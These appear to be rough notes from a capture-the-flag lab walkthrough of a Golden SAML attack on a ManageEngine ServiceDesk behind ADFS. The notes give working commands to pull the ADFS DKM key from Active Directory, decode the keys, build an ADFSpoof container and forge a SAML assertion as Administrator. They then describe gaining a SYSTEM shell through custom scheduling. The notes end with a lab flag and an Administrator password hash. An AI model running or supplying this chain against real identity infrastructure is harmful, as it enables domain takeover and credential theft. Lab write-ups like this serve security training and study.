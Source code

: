 https://192.168.21.123/ manageengine saml exploit

after setting up windows box and proxifier with chisel 

$key=(Get-ADObject -Credential $Cred -Server 192.168.20.10 -filter 'ObjectClass -eq "Contact" -and name -ne "CryptoPolicy"' -SearchBase "CN=ADFS,CN=Microsoft,CN=Program Data,DC=0x0security,DC=local" -Properties thumbnailPhoto).thumbnailPhoto
[System.BitConverter]::ToString($key)
7A-15-28-7C-15-00-2F-97-FB-04-DD-AF-32-B9-F1-9E-07-8D-28-9F-1E-BE-3A-D5-17-CF-D5-9C-D2-A2-CA-60

---
echo "7A-15-28-7C-15-00-2F-97-FB-04-DD-AF-32-B9-F1-9E-07-8D-28-9F-1E-BE-3A-D5-17-CF-D5-9C-D2-A2-CA-60"| tr -d "-" | xxd -r -p > DKMkey.bin
echo encryptedblob | base64 -d > encrypted.bin

FROM python:3.8.0-buster

RUN apt update && apt install -y faketime
RUN git clone https://github.com/dmb2168/cryptography.git && cd cryptography && pip install -e .
RUN git clone https://github.com/mandiant/ADFSpoof.git && cd ADFSpoof && pip install -r requirements.txt

WORKDIR /ADFSpoof

Drop that into a file called Dockerfile and run
docker build . -t adfspoof

to create adfspoof image. Launch the container and run bash in it with
docker -it --rm -v $(pwd):/keys adfspoof /bin/bash

Then you just run python3 ADFSpoof.py with faketime inside the container with your secret files in /keys

faketime -f '2023-02-13 06:17:10' python ADFSpoof.py -b ./EncryptedPfx.bin ./DKMkey.bin -s servicedesk.gigantichosting.local saml2 --endpoint https://servicedesk.gigantichosting.local/SamlResponseServlet --nameidformat urn:oasis:names:tc:SAML:2.0:nameid-format:transient --nameid 0x0security\\Administrator --rpidentifier servicedesk.gigantichosting --assertions ''

changing the saml request after sam login to servicedesk through adfs we get admin priv, further on admin panel the custom scheduling gives us shell as nt/system

APTLABS{Y0u_B3c0M3_Th3_S@mL_pR0vId3R}
 10.10.110.50

Administrator:500:aad3b435b51404eeaad3b435b51404ee:0405e42853c0f2cb0454964601f27bae:::